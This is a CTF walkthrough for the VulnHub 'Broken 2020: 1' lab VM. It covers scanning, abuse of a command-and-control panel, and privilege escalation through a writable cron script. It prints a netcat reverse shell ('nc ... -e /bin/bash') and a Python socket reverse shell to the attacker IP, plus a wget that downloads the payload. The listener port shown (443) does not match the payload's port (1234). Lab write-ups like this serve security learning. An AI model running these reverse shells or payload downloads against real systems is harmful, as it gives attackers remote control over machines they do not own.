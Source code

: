 ```yaml
---
title: "Broken 2020: 1 Walkthrough"
description: "Broken 2020: 1 CTF Walkthrough"
---
```

{% highlight text %}
Level : beginner for user flag and intermediate for root flag.

No exploit, custom exploitation is need.
{% endhighlight %}
the VM can be found [here](https://www.vulnhub.com/entry/broken-2020-1,470/)


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ nmap -p- -sV 192.168.56.134
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-28 18:58 EDT
Nmap scan report for 192.168.56.134
Host is up (0.00042s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.134 -q
/images               (Status: 301) [Size: 317] [--> http://192.168.56.134/images/]
/cms                  (Status: 301) [Size: 314] [--> http://192.168.56.134/cms/]   
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.134/fonts/] 
{% endhighlight %}

navigating to the website: 

http://192.168.56.134/cms/?install=on

SORRY FOR THAT
{FLAG1:**Defacement**}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.134/cms -q  
/cc                   (Status: 301) [Size: 317] [--> http://192.168.56.134/cms/cc/]
{% endhighlight %}

There's some command and control software on the server. So let's set one up with 
netcat to see if the machine connects back to us. 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ nc -vlp 6666                
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 192.168.56.134.
Ncat: Connection from 192.168.56.134:55668.
GET /e416963ce1ba5497b2dc6b5a91792233.sh HTTP/1.0
Host: 192.168.56.101:6666
Connection: close
{% endhighlight %}

The server GETs and runs a script after downloading it from the specified machine.
Here's our script:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ cat e416963ce1ba5497b2dc6b5a91792233.sh 
nc 192.168.56.101 4444 -e /bin/bash
{% endhighlight %}

Step 2. setting up our listener
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ nc -vlp 4444                                                              130 ⨯
{% endhighlight %}

Step 3. setting up the HTTP server for file transfer: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ python3 -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
192.168.56.134 - - [28/Mar/2021 19:18:49] "GET /e416963ce1ba5497b2dc6b5a91792233.sh HTTP/1.0" 200 -
{% endhighlight %}

Connection established: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ nc -vlp 4444                                                              130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.134.
Ncat: Connection from 192.168.56.134:33188.
{% endhighlight %}


Getting an interactive shell on the system: 
{% highlight terminal %}
python -c 'import pty; pty.spawn("/bin/bash");'
www-data@broken:/var/www/html/cms/cc$

enumerating user directories: 
www-data@broken:/home/alice$ ls -a
ls -a
.   .bash_history  .bashrc  .local    .selected_editor	flag.txt  script
..  .bash_logout   .cache   .profile  .wget-hsts	note.txt
www-data@broken:/home/alice$ cat flag.txt
cat flag.txt
{FLAG2:**Robing the rober**}
{% endhighlight %}
{% highlight terminal %}
www-data@broken:/home/alice$ cat note.txt
cat note.txt
{% endhighlight %}
{% highlight text %}
Alice, 

Please do not install TrustMeCMS, I need check the source before

PS: I created a script to clear apache log during the tests

root
{% endhighlight %}

Local enumeration:
{% highlight terminal %}
www-data@broken:/home/alice$ ls -als
ls -als
total 48
4 drwxr-xr-x 5 alice alice 4096 Mar 26  2020 .
4 drwxr-xr-x 3 root  root  4096 Mar 24  2020 ..
0 lrwxrwxrwx 1 alice alice    9 Mar 24  2020 .bash_history -> /dev/null
4 -rw-r--r-x 1 alice alice  220 Mar 24  2020 .bash_logout
4 -rw-r--r-- 1 alice alice  570 Jan 31  2010 .bashrc
4 drwxr-xr-x 3 alice alice 4096 Mar 24  2020 .cache
4 drwxr-xr-x 3 alice alice 4096 Mar 24  2020 .local
4 -rw-r--r-- 1 alice alice  148 Aug 17  2015 .profile
4 -rw-r--r-- 1 alice alice   66 Mar 25  2020 .selected_editor
4 -rw-r--r-- 1 alice alice  173 Mar 24  2020 .wget-hsts
4 -rw-r--r-- 1 alice alice   29 Mar 25  2020 flag.txt
4 -rw-r--r-- 1 alice alice  141 Mar 25  2020 note.txt
4 drwxrwxrwx 2 alice alice 4096 Mar 26  2020 script
{% endhighlight %}

we can write to the directory and overwrite the log.py with the following code: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ cat log.py                       
{% endhighlight %}
{% highlight python %}
#!/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.101",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

Setting up the server: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ python3 -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
{% endhighlight %}

Overwriting the file:
{% highlight terminal %}
www-data@broken:/home/alice/script$ wget http://192.168.56.101:6666/log.py
wget http://192.168.56.101:6666/log.py
--2021-03-29 02:16:14--  http://192.168.56.101:6666/log.py
Connecting to 192.168.56.101:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 232 [text/x-python]
Saving to: 'log.py.1'

log.py.1            100%[===================>]     232  --.-KB/s    in 0s      

2021-03-29 02:16:14 (15.1 MB/s) - 'log.py.1' saved [232/232]

www-data@broken:/home/alice/script$ mv log.py.1 log.py
mv log.py.1 log.py
{% endhighlight %}

After waiting a little while the machine will connect to the new listener
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/broken]
└─$ sudo nc -vlp 443                                                          130 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.56.134.
Ncat: Connection from 192.168.56.134:57676.
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash");'
alice@broken:/root$
alice@broken:~$ cat flag.txt
cat flag.txt
{FLAG2:**Robing the rober**}
{% endhighlight %}

getting the 3rd flag in the backup directory:
`{FLAG3:**Power of snak**}`

{% highlight terminal %}
alice@broken:~/backup$ echo "/root/" > path.txt
echo "/root/" > path.txt
alice@broken:~/backup$ ls -a
ls -a
.  ..  flag.txt  logbot.log  note.txt  path.txt  root
alice@broken:~/backup$ cat root
cat root
cat: root: est un dossier
alice@broken:~/backup$ cd root
cd root
alice@broken:~/backup/root$ ls -a
ls -a
.   .bash_history  .cache    .local   .profile		test.py
..  .bashrc	   flag.txt  log.txt  .selected_editor	.wget-hsts
alice@broken:~/backup/root$ cat flag.txt
cat flag.txt
Congratulation for the root flag !

     _________
    / ======= \
   / __________\
  | ___________ |
  | | -root-  | |
  | |         | |
  | |_________| |_____________________________________________________________________
  \=____________/                     enjoyed this VM ?                               )
  / """"""""""" \                     I love bitcoin                                 /
 / ::::::::::::: \           1Ba6vFEamUenzrXr4scGQ8QLya7t7zYZ1S                  =D-'
(_________________)

{% endhighlight %}


